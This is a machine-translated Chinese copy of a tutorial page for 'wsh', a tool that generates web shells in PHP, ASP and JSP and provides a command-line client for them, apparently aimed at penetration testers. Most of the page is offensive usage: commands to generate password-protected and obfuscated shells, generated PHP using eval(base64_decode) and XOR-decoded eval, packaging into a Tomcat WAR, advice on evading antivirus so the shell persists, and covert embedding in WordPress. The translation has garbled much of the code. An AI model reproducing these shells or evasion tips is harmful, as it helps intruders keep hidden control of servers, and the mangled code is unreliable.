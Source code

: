 # Wsh : Web Shell 生成器和命令行界面

> 原文：<https://kalilinuxtutorials.com/wsh/>

[![Rainbow Crackalack : Rainbow Table Generation & Lookup Tools](img//88f40a4594c71f1b17a3902be16f9d85.png "Rainbow Crackalack : Rainbow Table Generation & Lookup Tools")](https://1.bp.blogspot.com/-1GpemRb6YXo/XdBVAppVHsI/AAAAAAAADc8/1D_01PUiDAQ1voKm8C5XLgC4xL_GFrvyQCLcBGAsYHQ/s1600/RC%2B%25281%2529.png)

**wsh** (发音为 woosh)是一个 web shell 生成器和命令行界面。这一开始只是一个 http 客户端，因为与 webshells 交互是一件痛苦的事情。有一种表格，要发送命令，你必须在输入框中输入，然后按下按钮。我想要一些更适合我的工作流程并在终端上运行的东西。wsh 就这样诞生了。

该客户端具有命令历史记录和日志记录功能，并且可以配置为使用表单/按钮与以前部署的标准 webshell 进行交互。生成器用 php、asp 和 jsp 创建 webshells。它们是用随机变量生成的，所以每个都有唯一的散列。它们可以配置白名单、密码，并允许通过自定义的头和参数发送命令。生成器和客户端可以通过命令行标志或配置文件进行配置，以允许保存一个适合您的设置，而无需进行我称之为“帮助”的舞蹈。配置完成后，客户端和生成器使用相同的配置文件。

**特色**

*   通过命令行与部署的 web shells 交互
    *   记录
*   用 PHP、JSP 和 ASP 生成 webshells
    *   IP 白名单
    *   口令保护
    *   通过自定义头/参数发送命令
    *   文件上传/下载
    *   asp 和 php 的 Base64 编码外壳
    *   asp 和 php 的 XOR 加密外壳

**用法**

**连接**

**wsh【flags】
-X，–方法字符串 HTTP 方法:GET、POST、PUT、PATCH、DELETE(默认为“GET”)
–发送命令的 param 字符串参数
–发送命令的头字符串头
-P，–params 字符串 HTTP 请求参数
-H，–头字符串 HTTP 请求头
-c，–配置字符串配置文件
-k，–Ignore-SSL 忽略无效证书
–日志字符串日志文件
–前缀字符串前置**

**生成**

**wsh generate【flags】
wsh g【flags】
-X，–方法字符串 HTTP method (GET，POST，PUT，PATCH，DELETE)(默认为“GET”)
-p，–发送命令的 param 字符串参数
–发送命令的 header 字符串 Header
-w，–白名单字符串 IP 地址到白名单
-o， –outfile 字符串输出文件
–no-file 禁用文件上传/下载功能
–pass string 密码保护外壳
–pass-Header 用于发送密码的字符串头
–pass-param 用于发送密码的字符串参数
–xor-Header 用于发送 xor 密钥的字符串头
–xor-Key 用于 xor 加密的字符串密钥
–xor-param 用于发送 xor 密钥的字符串参数
–Base64 Base64 encode 外壳
–Minify Minify web shell 代码【T16**

**客户端使用/文件 IO**

我希望客户端是语言不可知的，所以所有的 webshells 都需要实现相同的上传/下载逻辑。不幸的是，在 jsp 和经典 asp 中本地进行多部分表单上传是一件痛苦的事情，所以文件在参数中以 base64 格式上传。这并不理想，因为最大文件上传大小受限于最大参数大小。在未来，我可能会尝试实现多部分表单上传，或者通过多个请求来传输更大的文件。

**$ wsh 127 . 0 . 0 . 1:8080/test . PHP–param cmd
127 . 0 . 0 . 1>help
get【本地文件路径】下载文件
put【远程文件路径】上传文件
clear 清屏
exit 退出 shell**

**发电机示例**

**简单的炮弹**

以下命令生成一个简单的 php web shell 并与之交互。

**$ wsh 生成 PHP–param cmd–no-file-o shell.php
在 shell.php 创建 shell。
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–param cmd**

命令也可以通过 http 头发送

**$ wsh generate PHP–no-file–header user-agent-o shell.php
在 shell.php 创建 shell。
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–header 用户代理**

**白名单**

**$ wsh 生成 PHP–no-file–param cmd-w 127 . 0 . 0 . 1，10 . 0 . 23 . 3-w 12.4.22.3-o shell.php**

**密码保护**

密码可以通过参数或标头发送。

**$ wsh generate PHP–no-file–param cmd–pass s3cr 3t–pass-param pass
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–param cmd-P pass:s3cr 3t
$ wsh generate PHP–no-file–param cmd–pass s3cr 3t–pass-header pass-header
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–param**

**Base64 / XOR 加密**

这个功能很有趣，但是可能需要对模板进行一些修改才能发挥作用。在 asp 和 jsp 的情况下，有助于解码 base64 的库是已知的 IOC，并将被标记。如果你对使用这些功能感兴趣，我建议修改模板和模糊处理。

与密码保护一样，xor 密钥可以通过参数或报头发送。

$**wsh g PHP–param cmd–no-file–base 64
<？PHP
eval(base 64 _ decode(' jezidsrfukvrvuvtvfny 21 k107 jezidsxryaw 0 oje senskttzxn 0 zw 0 oje senskttkawu 7 ')？>
$ wsh g PHP–param cmd–no-file–xorg-key S3 tk3 y–xorg-param x-key
PHP<？
$ khhx = $ _ request[" x-key "]；
$ lqc = base 64 _ decode(" D2 mpudjb 2 wrf FMI N2 agebqapldlwqg 182 jw4 xafozyxcpp 3 wwwmkenl 5 lvmmybedqafckfwg = ")；
【ooooqt = "；
用于($ ypui = 0)；$ ypui〔t18〕strlen($ lqc)；){
for($ cmq = 0；($ MQ<strlen($ khhx)&&【ypui】<【strlen($ lqc))；cMq++，ypui++ {
ooooqt。= $ lqc { $ ypui }∞khhx { $ cmq }；
}
}
eval($ ooooqt)；**

**雄猫壳**

要生成可以部署到 tomcat 的 webshell，创建一个名为 index.jsp 的 jsp shell，并运行下面的命令将其压缩到一个 war 文件中。

有时，tomcat 环境没有文件上传/下载所需的库，当发出请求时，shell 会出错。要解决这个问题，请使用`**--no-file**`标志。

**$ wsh g JSP–param cmd–no-file-o index.jsp
$ jar-CVF shell . war index.jsp**

**模板**

使用 go 模板库给生成器增加了很多灵活性。偶尔，webshell 会被 AV 捕获。但是，我发现在模板文件中添加一堆随机代码通常会使 shell 看起来足够良性，从而允许它在磁盘上持续存在。我在 templates/covert-php.tml 文件中包含了一个例子。

此外，您可以修改这些模板，以便在渗透测试的用例中包含您的姓名/联系信息。

**客户端功能**

**前缀**

可以指定一个前缀，为发送到 shell 的每个命令添加一个字符串。这可以用来把一个普通的 cmd 外壳变成一个 powershell 外壳。

**$ wsh http://10 . 0 . 0 . 27/shell . ASP–param cmd–前缀 powershell.exe
10 . 0 . 0 . 27>ls
目录:C:\windows\system32\inetsrv
模式 LastWriteTime 长度名称
——————
d——5/27/2020 11:49PM config
d——5/27/2020**

**测井**

日志带有时间戳，包括正在交互的主机。日志文件是附加的，因此可以随意对多个会话/主机使用同一个日志文件。

**127 . 0 . 0 . 1:8080/shell . PHP–param cmd–log localhost . log
登录到:localhost . log
127 . 0 . 0 . 1>ls
readme . MD
cmd
示例-configs
…
【04/20/2020 12:02:17】127 . 0 . 0 . 1>ls
readme . MD**

**修剪前缀/后缀**

客户端可以被配置为从请求中删除无关的 html 内容，这在与标准 html 界面 webshells 交互时很有用，或者如果一个生成的 shell 被偷偷嵌入到 wordpress 安装中。

$**wsh 127 . 0 . 0 . 1:8080/index . PHP-X POST–param cmd
127 . 0 . 0 . 1>ls
<div class = " p b-2 mt-4m b-2">
<H2>Output</H2>
/div>
<pre>
readme . MD
cmd**

[**Download**](https://github.com/EatonChips/wsh)
